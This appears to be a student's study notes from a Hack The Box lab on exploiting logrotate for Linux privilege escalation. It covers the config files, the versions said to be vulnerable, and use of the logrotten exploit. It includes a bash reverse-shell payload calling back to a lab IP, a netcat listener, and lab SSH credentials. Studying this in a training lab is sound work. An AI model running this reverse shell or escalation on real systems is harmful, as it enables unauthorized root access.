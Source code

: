 - Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```
ssh htb-student@10.129.204.41
```

### Passwd
```
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

What files/directories can I write to?

The `backup` directory has executable permissions and two files present: access.log and access.log.1

I have read permissions to both but only access.log.1 has data in it as seen in the second code fragment
```
htb-student@ubuntu:~$ ls -l
total 4
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 backups
htb-student@ubuntu:~$ cd backups/
htb-student@ubuntu:~/backups$ ls -la
total 12
drwxr-xr-x 2 htb-student htb-student 4096 Jun 14  2023 .
drwxr-xr-x 4 htb-student htb-student 4096 Mar 20 23:58 ..
-rw-r--r-- 1 htb-student htb-student    0 Jun 14  2023 access.log
-rw-r--r-- 1 htb-student htb-student   91 Jun 14  2023 access.log.1
htb-student@ubuntu:~/backups$ 

```

The log file shows a curl request to 192.168.0.104 /robbie03 was not found. This 
```
htb-student@ubuntu:~/backups$ cat access.log.1
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
htb-student@ubuntu:~/backups$ 
```

Verify logrotate status. This file executed on June 14 2023 at 2pm?
```
htb-student@ubuntu:/etc/logrotate.d$ cat /var/lib/logrotate.status
logrotate state -- version 2
"/home/htb-student/backups/access.log" 2023-6-14-14:1:27
```

